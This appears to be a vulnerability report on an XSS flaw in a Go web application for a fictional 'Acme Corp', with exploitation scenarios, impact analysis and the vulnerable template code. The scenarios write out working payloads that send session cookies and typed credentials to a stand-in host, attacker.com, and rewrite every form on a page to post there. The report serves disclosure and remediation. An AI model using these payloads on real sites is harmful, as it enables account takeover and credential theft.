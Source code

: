# Exploitation Scenarios
**Scenario 1: Session Hijacking**
An attacker crafts a malicious URL targeting Acme Corp users: `https://acme-corp.com/welcome?username=<script>fetch('https://attacker.com/steal?cookie='+document.cookie)</script>`. The attacker distributes this URL through phishing emails or social media. When a victim clicks the link, their browser renders the welcome page with the injected script, which sends their session cookie to the attacker's server. The attacker can then use this cookie to impersonate the victim and gain unauthorized access to their account.

**Scenario 2: Credential Harvesting**
An attacker creates a more sophisticated payload: `https://acme-corp.com/welcome?username=<div>Session expired. Please login again:</div><form action='https://attacker.com/steal'><input type='text' placeholder='Username'><input type='password' placeholder='Password'><button>Login</button></form>`. When a victim visits this URL, they see what appears to be a legitimate login form. If they enter their credentials, the information is sent directly to the attacker's server instead of Acme Corp.

**Scenario 3: Stored XSS Escalation**
If the application stores the username parameter for later use (such as in a user profile or dashboard), the XSS payload becomes persistent. An attacker could register with a username containing a malicious script: `<img src="x" onerror="setInterval(function() { document.querySelectorAll('form').forEach(f => { f.action='https://attacker.com/steal'; }) }, 1000)">`. This script would modify all form submissions on the site to send their data to the attacker's server, potentially affecting not just the victim but all users who view the attacker's profile or content.

# Impact Analysis
**Business Impact:**
- Compromise of user accounts and associated sensitive information
- Loss of customer trust if the vulnerability becomes known or exploited at scale
- Potential regulatory violations if personal data is exposed (GDPR, CCPA, etc.)
- Reputational damage to Acme Corp's security posture
- Possible financial losses from fraudulent transactions if the attack leads to account takeovers
- Legal liability if customer data is stolen through this vulnerability
- Resources required for incident response, customer notification, and remediation

**Technical Impact:**
- Unauthorized access to user session data and cookies
- Potential for lateral movement if administrators are compromised
- Bypass of client-side security controls through injected scripts
- Risk of further exploitation through browser vulnerabilities
- Collection of sensitive data entered into the compromised page
- Modification of page content to perform phishing attacks
- Potential use as an entry point for more sophisticated attacks
- Browser-based attacks such as cryptomining or exploitation of other vulnerabilities

# Technical Details
The vulnerability occurs due to a fundamental misunderstanding of Go's template safety mechanisms. The Go `html/template` package automatically escapes HTML content to prevent XSS attacks, but the `template.HTML` type explicitly tells the template engine that the content is pre-trusted and should not be escaped.

**Vulnerable Code Analysis:**

```go
// Define a basic HTML template that renders the username parameter directly.
tmpl := template.Must(template.New("welcome").Parse(`
    <!DOCTYPE html>
    <html>
    <head>
        <title>Welcome to Acme Corp</title>
    </head>
    <body>
        <h1>Welcome, {{.Username}}</h1>
    </body>
    </html>
`))
router.SetHTMLTemplate(tmpl)
```